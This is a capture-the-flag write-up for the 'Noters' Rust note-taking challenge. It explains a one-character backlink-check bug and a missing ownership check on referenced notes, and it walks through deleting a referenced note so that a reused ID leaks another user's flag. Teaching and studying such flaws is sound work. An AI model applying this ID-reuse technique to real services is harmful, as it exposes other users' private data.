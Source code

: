 # Noters

## Challenge Overview

- Name: Noters
- Category: Pwn
- Difficulty: Easy
- Description: A blazingly fast, memory-safe, CRUD-compliant note-taking app.

## Vulnerability

A logic flaw in the `delete_note()` function in `app.rs`(line 197) introduces a high-level use-after-free vulnerability. The intention is to prevent deleting a note if it's referenced by another, but the code mistakenly checks the note being deleted for backlinks rather than other notes that may reference it. The diff shows a patch of `delete_note()`.

```diff
    // Delete note by ID
    pub fn delete_note(&self, id: u16) -> Result<()> {
        // Check if any other note references this note (expensive)
        // and do not stop at the first backlink, find all of them
        let mut backlinks: Vec<u16> = Vec::new();
        for partial_note in self.list_notes()? {
            // Do not prevent deletion if note refers to itself
            if partial_note.id == id {
                continue;
            }

            // Read content and find all references
            // Save ID to Vec if it contains a backlink
            // to the note we're trying to delete
-           let content = self.repo.read(id)?.content;
+           let content = self.repo.read(partial_note.id)?.content;
            let references = NoteService::get_references(&content);
            if references.contains(&id) {
                backlinks.push(partial_note.id);
            }
        }

        let num_backlinks = backlinks.len();
        trace!("Found {} backlinks to note with ID: {}", num_backlinks, id);
        match num_backlinks {
            0 => self.repo.delete(id),
            _ => Err(NoteError::Validation(
                NoteValidationError::NoteIsReferenced(backlinks),
            )),
        }
    }
```

This one-character mistake (`id` vs `partial_note.id`) means that backlink checks are ineffective - you can delete a note even if another note references it. A dangling reference.

Additionally, `read_note()` in `app.rs` (line 112) fails to verify ownership for referenced notes. So if a user references a note they don't own, the system still resolves it.

```diff
    /// Reads a full note and expands any references in the content (e.g. `[[1]]` becomes the full text of note #1).
    ///
    /// # Errors
    ///
    /// Returns:
    /// - `NoteValidationError::PermissionDenied` if the user does not own the note or a referenced note.
    /// - `NoteValidationError::ReferenceNotFound` if a referenced note does not exist.
    /// - Other repository errors if reading from the backend fails.
    pub fn read_note(&self, id: u16) -> Result<Note> {
        let mut note = self.repo.read(id)?;

        // Only allow owner read access
        if self.user != note.owner {
            return Err(NoteValidationError::PermissionDenied(id).into());
        }

        // Mapping references to note contents: [[1]] -> "Some content"
        let placeholders = Self::get_references(&note.content)
            .into_iter()
            .map(|rid| match self.repo.read(rid) {
                Ok(ref_note) => {
+                   // Make sure user has permission to read referenced note
+                   if ref_note.owner != self.user {
+                       return Err(NoteError::Validation(
+                           NoteValidationError::PermissionDenied(ref_note.id),
+                       ));
+                   }
+
                    let placeholder = format!("[[{rid}]]");
                    let expansion = format!(
                        ">>> #{} {}\n>\n> {}",
                        ref_note.id,
                        ref_note.name,
                        ref_note.content.replace('\n', "\n> ")
                    );
                    Ok((placeholder, expansion))
                }
                Err(_) => Err(NoteValidationError::ReferenceNotFound(rid).into()),
            })
            .collect::<Result<Vec<_>>>()?;

        // Expanding references: [[1]] -> Note #1's content
        let expanded = placeholders
            .into_iter()
            .fold(note.content, |txt, (ph, exp)| txt.replace(&ph, &exp));

        note.content = expanded;
        Ok(note)
    }
```

## Exploit

To exploit this:

### 1. We create two notes

One regular note (`#0`), and one referencing the first (`#1`), like ``[[0]]`:

#### Note #0

```text
Name:
> first note

Content:
> hello!
> .
```

#### Note #1

```text
Name:
> references #0

Content:
> Reference to first note:
> [[0]]
> .
```

### 2. List notes to confirm

```pgsql
 id | owner     | name 
----+-----------+--------------
 0  | fslaktern | first note
 1  | fslaktern | references #0 
```

### 3. Delete note #0

Despite the note #1 referencing note #0, deletion succeeds due to the broken backlink check.

```pgsql
 id | owner     | name 
----+-----------+--------------
 1  | fslaktern | references #0 
```

### 4. Create a new note containing the flag

This gets assigned **ID #0**, which is still referenced by note #1.

```pgsql
 id | owner                | name 
----+----------------------+--------------
 0  | Norske Nøkkelsnikere | flag 
 1  | fslaktern            | references #0 
```

### 5. Read note #1

The reference `[[0]]` resolves - revealing the contents of the new note:

```
-------------------------------
#1: references #0

Reference to first note:
>>> #0 flag
>
> NNSCTF{flag}
-------------------------------
```

